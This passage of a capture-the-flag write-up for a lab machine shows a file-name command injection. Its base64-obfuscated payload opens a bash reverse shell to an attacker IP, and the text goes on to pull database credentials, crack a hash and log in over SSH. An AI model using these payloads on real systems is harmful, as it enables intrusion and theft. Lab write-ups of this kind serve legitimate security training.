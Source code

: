<img src="https://i.imgur.com/pxg9CJ4.png"/>

```bash
touch 'test.jpg;`echo "L2Jpbi9iYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE5Ny8yMjIyIDA+JjEi" |base64 -d|bash`;'
```

<img src="https://i.imgur.com/JmjOOo9.png"/>

So first we'll upload the jpg image file that we created 

<img src="https://i.imgur.com/nDP6H5T.png"/>

<img src="https://i.imgur.com/yUoqO07.png"/>

It has been uploaded , now we will need to intercept the request for editing the story image and then in `image_url` section we will need to call that file like this 

```bash
file:///var/www/writer.htb/writer/static/img/test.jpg;`echo "L2Jpbi9iYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE5Ny8yMjIyIDA+JjEi" |base64 -d|bash`;#
```

<img src="https://i.imgur.com/1guCey8.png"/>

From that `__int.py__` file we can get credentials to the `writer` database

<img src="https://i.imgur.com/tT0fv3e.png"/>

<img src="https://i.imgur.com/HrIz6ex.png"/>

But there wasn't anything useful that we could do with as this hash wasn't being cracked

<img src="https://i.imgur.com/lkpSuc5.png"/>

So I did some digging and found another password in `/etc/mysql/mariadb.cnf`

<img src="https://i.imgur.com/AF4xysd.png"/>

Which gives us this hash

<img src="https://i.imgur.com/EG2tBsb.png"/>

We can search on hashcat examples for this hash whose mode number is  `10000 `

<img src="https://i.imgur.com/wXy8C4m.png"/>

<img src="https://i.imgur.com/QbZ7Wnp.png"/>

After giving it some time , the hash will be cracked and then you can use `ssh` to login to target machine as `kyle` user

<img src="https://i.imgur.com/nWfOZ1b.png"/>
